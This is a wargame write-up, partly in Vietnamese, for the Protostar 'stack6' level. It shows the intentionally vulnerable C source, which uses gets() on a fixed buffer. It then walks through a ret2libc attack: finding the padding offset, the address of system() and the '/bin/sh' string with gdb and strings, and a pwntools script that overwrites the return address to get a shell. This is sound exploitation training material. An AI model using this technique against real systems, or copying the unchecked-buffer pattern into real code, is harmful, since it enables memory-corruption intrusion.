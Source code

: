 # stack6

## Description

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### Ret2libc

Giải thích 1 chút, trên môi trường ubuntu của protostar thì ASLR off, và addr của stack luôn bắt đầu bằng `0xbf` cho nên bạn ko thể chèn shellcode. Vì nếu chèn shellcode khi EIP bắt đầu bằng `0xbf` thì lệnh if sẽ True và print() rồi _exit(). Vậy nên t sẽ return về địa chỉ của system() trong libc.

*Tìm padding*

![screenshot](padding.png)

`padding = cyclic(cyclic_find(uaaa))`

*tìm địa chỉ system()*

```Terminal
(gdb) p system
  $1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

*tìm addr /bin/sh

```Terminal
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh   
 
  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimal
To confirm...
(gdb) x/s 0xb7e97000 + 0x11f3bf   <-- libc start address + offset
  0xb7fb63bf:  "/bin/sh"
```

### exploit script

```py
from pwn import *
proc = process('./stack6')
padding = cyclic(cyclic_find("uaaa"))
system_addr = p32(0xb7ecffb0)
##ret addr after system()
ret="\x90"*4
bin_sh_addr = p32(0xb7e97000+0x11f3bf)
payload = padding + system_addr + ret + bin_sh_addr
proc.recvuntil("please: ")
proc.sendline(payload)
proc.recvuntil('\n')
proc.interactive()
```

![run](run.png)
